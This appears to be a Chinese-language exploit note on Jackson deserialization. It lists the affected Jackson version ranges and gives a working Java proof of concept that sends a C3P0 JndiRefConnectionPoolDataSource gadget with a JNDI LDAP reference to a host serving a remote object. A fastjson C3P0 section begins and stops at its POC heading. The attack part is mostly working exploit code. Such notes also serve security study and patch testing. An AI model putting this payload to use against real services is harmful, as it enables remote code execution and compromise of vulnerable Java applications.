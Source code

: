 ### jackson打C3P0 JNDI

```
Jackson 2.7系列 < 2.7.9.2
Jackson 2.8系列 < 2.8.11
Jackson 2.9系列 < 2.9.4
```

适用于TemplatesImpl被ban

POC：

```java
public class jackson_JNDI {
    public static class enableDefaultTyping_Test {
        public Object object;
    }
    public static void main(String[] args) throws Exception {
        String jndiName = "'ldap://127.0.0.1:1099/JDNI_RuntimeEvil'";
        String jsonInput = aposToQuotes("{\"object\":['com.mchange.v2.c3p0.JndiRefConnectionPoolDataSource',\n" +
                "{\n" +
                "'jndiName':"+jndiName+",\n" +
                "'loginTimeout':'2',\n" +
                "}\n" +
                "]\n" +
                "}");
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        jackson_JNDI.enableDefaultTyping_Test test;
        try {
            test = mapper.readValue(jsonInput, jackson_JNDI.enableDefaultTyping_Test.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014121955829.png)

jackson高版本对本文利用类加了黑名单



### fastjson打C3P0 JNDI

fastjson <= 1.2.47 利用缓存绕过，打C3P0适用于环境JdbcRowSetImpl被ban

POC：
